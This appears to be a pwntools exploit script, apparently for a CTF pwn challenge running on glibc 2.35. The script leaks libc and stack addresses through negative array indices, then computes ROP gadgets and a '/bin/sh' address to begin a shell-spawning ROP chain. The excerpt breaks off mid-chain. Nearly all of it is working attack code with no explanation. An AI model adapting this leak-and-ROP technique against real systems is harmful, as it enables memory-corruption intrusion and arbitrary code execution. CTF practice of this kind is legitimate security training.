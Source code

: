 ```python

context.log_level = 'debug'
context.os = 'linux'
context.arch = filearch
context.terminal = ["/mnt/c/Windows/System32/cmd.exe", '/c', 'start', 'wsl.exe']

elf = context.binary = ELF(filename)
if libcname:
    libc = ELF(libcname)

gdbscript = '''
b *$rebase(0xC70)
b *$rebase(0xD57)
set debug-file-directory /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.5/amd64/libc6-dbg_2.35-0ubuntu3.5_amd64/usr/lib/debug
set directories /home/lufiende/Tools/CTF/Pwn/Glibc/pkgs/2.35-0ubuntu3.5/amd64/glibc-source_2.35-0ubuntu3.5_all/usr/src/glibc/glibc-2.35
'''

isAttach = 0
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    elif args.ATTACH:
        global isAttach
        isAttach = 1
        return process(host, port)
    else:
        return process(elf.path)

def dbg():
    if isAttach:
        gdb.attach(io, gdbscript = gdbscript)

io = start()

############################################
io.sendlineafter(b'one',b'2')
io.sendlineafter(b'one',b'-2')

io.recvuntil(b'num[-2] = ')
libc_base = int(io.recv(15)) - libc.sym['_IO_2_1_stderr_']
print(hex(libc_base))

io.sendlineafter(b'one',b'2')
io.sendlineafter(b'one',b'-4')

io.recvuntil(b'num[-4] = ')
stack_leak = int(io.recv(15))
print(hex(stack_leak))

int1 = libc_base + 0xc6d6e
pop_rdi = libc_base + 0x2a3e5
pop_rsi = libc_base + 0x1518b3
pop_rdx = libc_base + 0x796a2
pop_rax = libc_base + 0x45eb0
syscall = libc_base + 0x91316
leave = libc_base + 0x4da83
binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()
ropchain = b'a' * 0x10
ropchain += p64(int1)
```